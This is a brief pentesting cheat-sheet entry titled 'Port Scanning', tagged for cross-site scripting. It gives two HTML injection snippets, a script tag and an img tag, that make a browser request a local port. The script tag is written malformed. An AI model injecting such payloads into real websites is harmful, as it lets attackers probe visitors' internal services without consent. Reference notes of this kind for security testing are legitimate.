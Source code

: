 # Port Scanning

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

```
<script>src="http://[::]:8000/image.jpg"</script>
<img src="http://[::]:8000/image.jpg"><img>
```